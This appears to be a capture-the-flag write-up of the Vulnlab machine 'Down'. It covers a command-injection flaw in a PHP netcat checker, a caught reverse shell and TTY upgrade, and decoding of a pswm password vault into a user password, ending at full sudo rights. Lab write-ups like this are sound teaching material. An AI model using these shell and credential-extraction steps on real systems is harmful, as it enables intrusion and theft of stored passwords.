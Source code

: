 ```yaml
---
title: Vulnlab - Down
date: 2025-01-13 02:00:00 +/-TTTT
categories: [VulnLab]
tags: [pswm]     # TAG names should always be lowercase
image : /assets/images/down_slide.png
---
```



## Enum
    22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    |   256 f6:cc:21:7c:ca:da:ed:34:fd:04:ef:e6:f9:4c:dd:f8 (ECDSA)
    | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBL9eTcP2DDxJHJ2uCdOmMRIPaoOhvMFXL33f1pZTIe0VTdeHRNYlpm2a2PumsO5t88M7QF3L3d6n1eRHTTAskGw=
    |   256 fa:06:1f:f4:bf:8c:e3:b0:c8:40:21:0d:57:06:dd:11 (ED25519)
    |ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJwLt0rmihlvq9pk6BmFhjTycNR54yApKIrnwI8xzYx/
    80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.52 ((Ubuntu))
    | http-methods:
    |  Supported Methods: GET HEAD POST OPTIONS
    |_http-title: Is it down or just me?
    |_http-server-header: Apache/2.4.52 (Ubuntu)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

### Website
![img-description](/assets/images/1.png)

for understand it clearly i will try to dump index.php and analyze source code.

![img-description](/assets/images/21.png)

![img-description](/assets/images/3.png)

### analyze code

![img-description](/assets/images/2025_01_12_0me_Kleki.png)

PHP code snippet accepts ip and port parameters via a POST request when expertmode=tcp is set in the GET parameters. It validates the ip and port inputs before using them in a shell command to perform a TCP connection check using nc (netcat). However, there are several issues that can lead to security vulnerabilities and functionality concerns
## user
![img-description](/assets/images/5.png)

    ➜  down nc -nvlp 443
    listening on [any] 443 ...
    connect to [10.8.2.152] from (UNKNOWN) [10.10.92.73] 49890
    ls
    index.php
    logo.png
    style.css
    user_aeT1xa.txt
    python3 -c 'import pty;pty.spawn("/bin/bash")'
    www-data@down:/var/www/html$ export TERM=xterm
    export TERM=xterm
    www-data@down:/var/www/html$ ^Z
    [1]  + 150945 suspended  nc -nvlp 443
    ➜  down stty raw -echo;fg

    [1]  + 150945 continued  nc -nvlp 443

    www-data@down:/var/www/html$

### linpeas

    ╔══════════╣ Interesting writable files owned by me or writable by everyone (not in Home) (max 200)

    ╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-files

    [SNIP]
    /var/crash/_usr_bin_pswm.33.crash

    /var/www/html/user_aeT1xa.txt

    [SNIP]

thasts look like interesting

    www-data@down:/tmp$ cat /var/crash/_usr_bin_pswm.33.crash
    ProblemType: Crash
    Date: Fri Sep  6 15:01:16 2024
    ExecutablePath: /usr/bin/pswm
    ExecutableTimestamp: 1725633898
    InterpreterPath: /usr/bin/python3.10
    ProcCmdline: python3 /usr/bin/pswm

    PermissionError: [Errno 13] Permission denied: '/var/www/.local'

https://github.com/repo4Chu/pswm-decoder

we already know location before so just dump it

    www-data@down:/home/aleks/.local/share/pswm$ ls
    pswm

### pswm

    (myenv) ➜  down python3 pswm-decoder.py
    Password: flower
    Decoded text:
    pswm    aleks   flower
    aleks@down      aleks   1uY3w22u<redacted>

## root

    aleks@down:~$ sudo -l
    Matching Defaults entries for aleks on down:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

    User aleks may run the following commands on down:
    (ALL : ALL) ALL

